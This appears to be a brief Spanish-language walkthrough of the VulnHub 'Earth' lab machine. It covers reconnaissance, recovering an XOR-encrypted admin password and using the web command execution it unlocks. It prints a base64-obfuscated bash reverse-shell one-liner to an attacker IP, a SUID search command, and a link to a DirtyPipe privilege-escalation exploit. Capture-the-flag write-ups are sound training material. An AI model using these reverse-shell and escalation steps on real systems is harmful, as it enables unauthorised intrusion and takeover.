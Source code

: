 # VULNHUB Earth

Escaneo habitual. Puertos abiertos 22, 80 y 443

El certificado nos devuelve dos dominios, DNS:earth.local, DNS:terratest.earth.local


Se hace FUZZING. Existe terratest.earth.local/robots.txt:

<pre>

Testing secure messaging system notes:
*Using XOR encryption as the algorithm, should be safe as used in RSA.
*Earth has confirmed they have received our sent messages.
*testdata.txt was used to test encryption.
*terra used as username for admin portal.
Todo:
*How do we send our monthly keys to Earth securely? Or should we change keys weekly?
*Need to test different key lengths to protect against bruteforce. How long should the key be?
*Need to improve the interface of the messaging interface and the admin panel, it's currently very basic.

</pre>

Existe testdata.txt 

<pre>
According to radiometric dating estimation and other evidence, Earth formed over 4.5 billion years ago. Within the first billion years of Earth's history, life appeared in the oceans and began to affect Earth's atmosphere and surface, leading to the proliferation of anaerobic and, later, aerobic organisms. Some geological evidence indicates that life may have arisen as early as 4.1 billion years ago.
</pre>

Decodificamos en https://gchq.github.io/CyberChef y la pass es: earthclimatechangebad4humans

Usamos terra:earthclimatechangebad4humans en /admin y tenemos ejecución remota de comandos vía Web.

Nos mandamos consola:

<pre>
echo 'bash -i >& /dev/tcp/192.168.168.212/443 0>&1' | base64 

echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2OC4yMTIvNDQzIDA+JjEK' | base64 -d | bash

</pre>

Para buscar ficheros con permisos suid

<pre>

find / -perm -u=s -type f 2>/dev/null

</pre>

Al tener pkexec utilizamos:

https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit

